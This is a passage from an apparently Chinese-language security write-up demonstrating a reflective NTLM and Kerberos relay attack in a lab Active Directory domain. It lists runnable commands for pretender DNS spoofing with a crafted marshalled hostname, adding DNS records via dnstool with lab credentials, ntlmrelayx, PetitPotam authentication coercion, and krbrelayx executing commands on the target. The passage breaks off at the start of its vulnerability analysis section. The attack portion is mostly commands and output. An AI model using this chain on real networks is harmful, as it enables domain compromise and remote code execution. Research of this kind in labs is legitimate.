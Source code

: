1、使用 pretender 在局域网里开启域名监听（该方法限于同一局域网，不会在域内添加 DNS 记录较隐蔽）  

```
pretender -i &#34;eth1&#34; --spoof &#34;CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA&#34; --no-dhcp-dns --no-timestamps

```

  
SMB、HTTP 在解析域名时会尝试所有的方法：IPv4, IPv6, mDNS, LLMNR, NetBIOS-NS, A, AAAA, ANY和所有可能的组合去获取到域名的解析 IP  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGVcfoib4k0b2kp9cbwf1GZxrEeicmGgZicYfW8QGEOVZ3oSW75LsvWPmNw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGIUK0DBMwMm2EjEOsCvzHLkXQu3Ld3wIs9Nnib3cjbCV8ac92HgWPWsA/640?wx_fmt=png&from=appmsg "")  
  
  
使用 dnstool 向域内添加 DNS 记录（该方法可在不同局域网使用）  

```
$ dnstool.py -u 'NORTH.SEVENKINGDOMS.LOCAL\arya.stark' -p 'Needle' 192.168.56.11 -a add -r CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 192.168.56.9 

[-] Adding new record 
[+] LDAP operation completed successfully

```

  
2、开启 NTLM Relay  

```
$ impacket-ntlmrelayx -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -smb2support

```

  
3、使用 PetitPotam 强制让目标机器向攻击机器做 SMB 验证  

```
$ PetitPotam.py -d NORTH.SEVENKINGDOMS.LOCAL -u 'arya.stark' -p 'Needle' &#34;CASTELBLACK1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA&#34; &#34;CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL&#34;

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtGNjmsOFykibtRDtDuiaOCZaVUQeOVePQQHibzOvySUW12HCGyzzCvdVemg/640?wx_fmt=png&from=appmsg "")  
#### 使用 Kerberos 中继  
  
第一步和第三步与上述一致，第二步开启 krbrelayx 。  

```
$ python3 krbrelayx.py -t CASTELBLACK.NORTH.SEVENKINGDOMS.LOCAL -debug -c 'cmd /c &#34;whoami /all & hostname & ipconfig&#34;'

```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4LicHRMXdTzAa8vyywL0Em1eSBDwicSLtG7Wpel1hh3wiaPpnvZLjolYcWeX5P8yuVdhVDm0O9wT8TUF8TqJ4kfdA/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
#### 本地 NTLM 认证  
  